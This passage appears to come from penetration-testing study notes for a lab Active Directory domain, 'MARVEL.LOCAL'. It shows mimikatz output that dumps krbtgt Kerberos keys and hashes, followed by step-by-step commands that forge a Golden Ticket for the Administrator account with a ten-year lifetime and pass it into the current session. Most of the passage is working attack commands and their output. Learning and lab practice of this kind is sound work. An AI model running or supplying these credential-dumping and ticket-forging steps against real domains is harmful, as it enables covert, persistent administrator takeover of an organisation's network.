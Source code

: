          * Kerberos
            Default Salt : MARVEL.LOCALkrbtgt
            Credentials
              des_cbc_md5       : 8f80523162b59e1f
        
         * Kerberos-Newer-Keys
            Default Salt : MARVEL.LOCALkrbtgt
            Default Iterations : 4096
            Credentials
              aes256_hmac       (4096) : 212d7b3d6b58d7a56ea0ef5cd02d4f3a64693d864e0bea29a4a4d652c28166b1
              aes128_hmac       (4096) : fcaa780e25cfe411d83a5213ae1202d3
              des_cbc_md5       (4096) : 8f80523162b59e1f
        
         * NTLM-Strong-NTOWF
            Random Value : 580d75465eef7e66b25669a98be05bef
        
        mimikatz #
        ```
        
    - Copy the following from the output into a text file:
        - **Domain SID**.
        - **NTLM hash** of the `KRBTGT` account.
            
            ```Bash
            SID: S-1-5-21-1169423831-1230255408-155128205
            NTLM: 2c081f2e0bea2205c1ef18d973589b15
            ```
            
3. **Generate the Golden Ticket**:
    - Command structure:
        
        ```Shell
        kerberos::golden /User:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<hash> /id:<id> /ptt
        ```
        
    - Example:
        
        ```Shell
        kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1169423831-1230255408-155128205 /krbtgt:2c081f2e0bea2205c1ef18d973589b15 /id:500 /ptt
        ```
        
    - Parameters:
        - `/user`: Arbitrary username (e.g., `Administrator` or `FakeUser123`).
        - `/domain`: Domain name (e.g., `Marvel.local`).
        - `/sid`: Security Identifier of the domain.
        - `/krbtgt`: NTLM hash of the `KRBTGT` account.
        - `/id`: RID (use `500` for Administrator account).
        - `/ptt`: Pass the Ticket to the current session.
    - What is this doing?
        
        - Basically generating a Golden ticket and passing it onto the next session
        
        ```Bash
        mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1169423831-1230255408-155128205 /krbtgt:2c081f2e0bea2205c1ef18d973589b15 /id:500 /ptt
        User      : Administrator
        Domain    : marvel.local (MARVEL)
        SID       : S-1-5-21-1169423831-1230255408-155128205
        User Id   : 500
        Groups Id : *513 512 520 518 519
        ServiceKey: 2c081f2e0bea2205c1ef18d973589b15 - rc4_hmac_nt
        Lifetime  : 1/8/2025 8:18:55 PM ; 1/6/2035 8:18:55 PM ; 1/6/2035 8:18:55 PM
        -> Ticket : ** Pass The Ticket **
        